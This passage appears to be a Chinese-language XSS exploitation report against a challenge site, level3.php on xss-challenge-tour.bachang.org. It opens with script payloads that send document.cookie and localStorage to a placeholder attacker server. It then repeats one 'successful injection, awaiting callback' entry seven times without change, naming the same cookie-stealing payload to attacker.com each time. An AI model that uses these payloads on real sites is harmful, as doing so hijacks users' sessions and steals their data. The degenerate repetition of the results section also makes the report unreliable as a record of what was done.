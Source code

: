 3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

## 漏洞利用结果
### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

